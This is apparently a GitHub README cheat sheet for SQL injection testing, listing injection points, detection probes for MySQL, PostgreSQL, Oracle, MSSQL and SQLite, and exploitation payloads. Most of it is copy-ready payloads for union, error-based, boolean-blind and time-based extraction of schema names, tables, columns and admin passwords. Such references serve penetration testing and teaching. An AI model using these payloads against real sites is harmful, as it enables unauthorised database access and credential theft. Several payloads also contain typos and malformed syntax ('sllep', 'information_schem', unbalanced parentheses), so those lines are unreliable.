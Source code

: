 # SQL Injection

- [Types](https://github.com/SpiderSec101/Web_Application_Security_Testing/edit/main/Cheat_Sheet/SQL%20Injection/Readme.md#types-of-sql-injection)
- [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/edit/main/Cheat_Sheet/SQL%20Injection/Readme.md#sql-injection-points)
- [Detection](https://github.com/SpiderSec101/Web_Application_Security_Testing/edit/main/Cheat_Sheet/SQL%20Injection/Readme.md#detecting-sql-injection)
- [Exploitation](https://github.com/SpiderSec101/Web_Application_Security_Testing/edit/main/Cheat_Sheet/SQL%20Injection/Readme.md#exploitation)
---
### Types of SQL Injection

* In Band SQL Injection
* Blind SQL Injection
* OutOfBand Injection

### SQL Injection Points

- **`Login Form`**
- **`Url Search Parameters`**
- **`Url id values`**
- **`Cookie Values`**
- **`XML encoded values like <storeId>**</storeId>`**
- **`Form Input Sections`**
- **`File Upload Sections`**

## Detecting SQL Injection

*  Error Based

        '
        "
        ;
        ;--
        ;#
        `
        ')
        ")
        `)
        '))
        "))
        `))

* Union Based

      ' union select 1,2,3,4;-- -
      ' order by 1,2,3,4;-- -
      ' union select null,null,null,null;-- -
* Boolean Based

      ' and true;-- -
      ' and false;-- -
      ' and 1=1;-- -
      ' and 1=2; -- -
      ' or 1=1; -- -
      ' or 1+2 = 3;-- - 
      ' and 'a' is not 'b
      ' or '1' = '1
* Time Based

  * MySQL
    
        '; select sleep 10;-- -
        ' and sllep 10; -- -
        ' && sleep 10; -- -
        ' | sleep 10; -- -
  * PostgreSQL
    
        ' || pg_sleep(10);-- -
        '; select pg_sleep(10);-- -
  * Oracle
        
        1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
        1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  * MSSQL

        ' waitfor_delay '0.0.10
  * SQLite

        1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
        1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

## Exploitation

#### In-Band SQL Injection

- Union Based Attack
```sql
' UNION SELECT 1,2,3,4;-- -
```
```sql
' union select 1,2,group_concat(schema_name),4 from information_schema.tables;-- -
```
```sql
' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=<database_name>
```
```sql
' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name = <the_table_name>
```

- Error Based Attacks
```sql
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT version()), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT @@version), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT database()), '~|~'));--
```
- Stack Based Attack
```sql
'; select group_concat(schema_name) from information_schem.tables;-- -
```

#### Boolean SQLInjection 

- Extracting database name
```sql
id  =  2'  and  length(database())  >  10;--
```
```sql
id  =  2'  and  ascii(substr(database(),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(database(),2,1)) > 100;--
```
- Extracting table names
```sql
id  =  2'  and  (length(select  table_name  from  information_schema.tables  where  table_schema = '<name of database>' limit 0,1))  >  10;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 0,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 2,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>) limit 0,1),1,1))  >  100;--
```
- Column name enumeration
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>  and  column_name  !=  <one of the column>) limit 0,1),1,1)) > 100;--
```
- Data Extract
```sql
id  =  2' and  length((select  column_name_here  from  <table name>) limit 0,1)  >  10;--
```
```sql
id  =  2' and  ascii(substr(((select column_name_here  from  <table name>) limit 0,1),1,1)) > 100;--
```
- Admin password extract
```sql
id=1' and (select username from tabke_name_here where username = 'admin') = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (length(password) > 10)) = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (ascii(substr(select password from table_name_here where usrename = 'admin')1,1) > 100) = 'admin';-- -
```
#### Time Based Injection
- Functions to be used

        sleep(10)
        pg_sleep(10)
        waitfor delay '0.0.10'
        benchmark()
- General Syntax
```sql
hvdhjv’; select case 
when (1=1) then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Table Name Enumeration
```sql
hvdhjv’; select case 
when ((ascii(substring(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>10) 
then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Column Name Enumeration
```sql
hvdhjv’; select case when ((ascii(substring(select column_name from information_schema.columns where table_name=<table_name> limit 1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Username and Password
```sql
hvdhjv’; select case when ((ascii(substring(select username from <table_name> limit 0,1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Admin password enumeration
```sql
xyz'|| (case when (substr((select password from users where username='administrator'),1,1) = 'a') then pg_sleep(10) else pg_sleep(0) end) || '
```
```sql
hvdhjv’; select when ((ascii(substring(select password from <table_name> where username='admin'),1,1))>100) then pg_sleep(10) else pg_sleep(0) end ;
```






























































































































































































































































































































































































































































































